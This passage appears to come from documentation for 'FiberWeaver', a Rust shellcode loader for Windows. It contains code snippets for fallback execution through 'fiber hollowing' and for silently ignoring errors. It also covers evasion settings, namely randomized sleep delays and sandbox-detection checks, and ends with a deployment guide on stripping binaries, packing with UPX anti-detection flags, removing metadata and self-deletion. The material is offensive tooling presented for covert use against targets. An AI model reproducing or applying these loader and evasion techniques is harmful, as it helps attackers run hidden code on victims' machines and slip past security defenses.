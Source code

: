    ```rust
       Err(_) => {
           match execute_code_with_fibers(&mut encrypted_memory) {
               Ok(_) => return Ok(()),
               Err(_) => {
                   // Try next method
               }
           }
       }
   }
   ```
3. **Silent Failure**: Continue execution regardless of errors
   ```rust
   let _= execute_via_fiber_hollowing(code_data);
   ```

## Evasion Configuration
### Timing and Delays
Configure timing patterns to avoid detection:
```rust
// Random delay before execution
let delay = rand::random::<u32>() % 200 + 100;
win::Sleep(delay);
// Chunked delays (less suspicious)
for _ in 0..chunks {
    std::thread::sleep(Duration::from_millis(chunk_size));
}
```

### Environment Checks
Configure which environment checks to perform:
```rust
// Comprehensive checks
if comprehensive_environment_check() {
    return Ok(());
}
// Selective checks
if check_cpu_cores() || check_performance_counters() {
    return Ok(());
}
// No checks (maximum compatibility)
// Remove all environment checks
```
"""

[DEPLOYMENT_GUIDE]
"""
# FiberWeaver Deployment Guide

## Pre-Deployment Checklist
1. **Target Environment Compatibility**
   - Verify Windows version compatibility (Windows 7 or newer recommended)
   - Ensure target has sufficient privileges for memory operations
   - Confirm shellcode is compatible with fiber execution model
2. **Binary Preparation**
   - Strip all debug symbols from compiled binary
   - Minimize binary size using appropriate compiler flags
   - Consider UPX compression with anti-detection flags
3. **Operational Security**
   - Remove any identifying information from binary metadata
   - Implement self-deletion capability if needed
   - Configure environment checks based on target environment